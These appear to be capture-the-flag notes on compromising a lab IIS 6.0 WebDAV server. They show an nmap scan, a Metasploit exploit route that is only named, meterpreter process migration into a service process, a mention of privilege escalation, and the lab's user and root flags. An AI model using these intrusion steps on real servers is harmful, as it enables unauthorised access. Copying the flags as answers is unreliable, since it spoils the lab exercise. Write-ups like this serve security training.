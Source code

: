 #msfconsole 
### Reconnaissance
```
┌──(root㉿kali)-[/home/li0t]
└─# nmap -sV -sC --open -p- 10.10.10.14
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-07 15:32 EDT
Nmap scan report for 10.10.10.14
Host is up (0.12s latency).
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-server-header: Microsoft-IIS/6.0
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Server Date: Sat, 07 Sep 2024 19:35:30 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   Server Type: Microsoft-IIS/6.0
|_  Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_http-title: Under Construction
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 207.97 seconds
```
### Enumeration
- Same IIS as granny 
- msf scstoragepath from url instead of asp upload
- ![Image](/assets/Screenshot 2024-09-07 at 3.44.15 PM.png)
- migration to 32 bit
```
meterpreter > ps

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System
 148   1072  cidaemon.exe
 272   4     smss.exe
 320   272   csrss.exe
 344   272   winlogon.exe
 392   344   services.exe
 404   344   lsass.exe
 580   392   svchost.exe
 668   392   svchost.exe
 732   392   svchost.exe
 772   392   svchost.exe
 788   392   svchost.exe
 924   392   spoolsv.exe
 952   392   msdtc.exe
 1072  392   cisvc.exe
 1112  392   svchost.exe
 1168  392   inetinfo.exe
 1204  392   svchost.exe
 1316  392   VGAuthService.exe
 1392  392   vmtoolsd.exe
 1504  392   svchost.exe
 1600  392   svchost.exe
 1768  344   logon.scr
 1804  392   dllhost.exe
 1896  392   alg.exe
 1904  580   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe
 2404  580   wmiprvse.exe
 2572  3408  rundll32.exe       x86   0                                      C:\WINDOWS\system32\rundll32.exe
 2768  788   HelpSvc.exe
 3408  1504  w3wp.exe           x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.exe
 3480  580   davcdata.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcdata.exe
 4028  1072  cidaemon.exe
 4072  1072  cidaemon.exe

meterpreter > migrate 3480
[*] Migrating from 2572 to 3480...
[*] Migration completed successfully.

```
sysinfo![Image](/assets/Screenshot 2024-09-07 at 3.46.28 PM.png)
local exploit suggester
- ![Image](/assets/Screenshot 2024-09-07 at 3.51.10 PM.png)
- param and privesc![Image](/assets/Screenshot 2024-09-07 at 3.53.07 PM.png)

user: bdff5ec67c3cff017f2bedc146a5d869

root: 9359e905a2c35f861f6a57cecf28bb7b

### Exploit
### User
### Flag